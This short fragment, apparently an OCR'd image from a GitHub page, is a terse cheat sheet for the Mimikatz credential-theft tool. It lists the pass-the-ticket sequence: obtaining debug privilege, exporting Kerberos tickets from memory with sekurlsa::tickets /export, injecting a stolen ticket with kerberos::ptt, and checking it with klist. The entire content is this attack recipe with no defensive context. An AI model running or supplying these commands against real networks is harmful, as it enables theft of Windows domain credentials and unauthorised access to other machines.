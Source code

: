 ### Tool: Mimikatz


#### 1) privilege::debug

#### 2) sekurlsa::tickets /export

#### 3) kerberos::ptt TICKET

#### klist
